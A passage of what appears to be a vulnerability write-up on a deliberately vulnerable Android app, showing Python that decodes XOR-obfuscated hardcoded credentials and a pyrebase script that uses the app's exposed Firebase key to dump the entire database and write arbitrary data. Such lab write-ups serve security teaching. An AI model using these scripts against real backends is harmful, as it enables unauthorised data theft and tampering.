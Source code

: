     
2. **Static Deobfuscation:** Since the XOR key is static (`'U'` or `85`), reversing the obfuscation is trivial.
    
    Python
    
    ```python
    def xor_deobf(data, key=85):
        return ''.join([chr(ord(c) ^ key) for c in data])
    
    username = xor_deobf("418<;")
    password = xor_deobf("\u0017 2\u00174/44'\u0006066::9") 
    ```
 ![StaticDecryption](image-3.png)

2. **Hardcoded Firebase Secrets (`strings.xml`)**

![stringsXml](image-4.png)

- Firebase API keys and storage bucket are hardcoded in the app. With insecure rules (public read/write), attackers can directly connect to the backend and fully control the database.

```python
import pyrebase

config = {
  "apiKey": "AIzaSyDOx8mTnKN6LiCVh7bCjAvGqrx4QCd9AHk",
  "authDomain": "bugbazaar-cb1a1.firebaseapp.com",
  "databaseURL": "https://bugbazaar-cb1a1.firebaseio.com",
  "storageBucket": "bugbazaar-cb1a1.appspot.com",
}
firebase = pyrebase.initialize_app(config)
db = firebase.database()

print(db.get())   # Dumps entire database
db.push({"pwned": "true"})  # Write arbitrary data
```
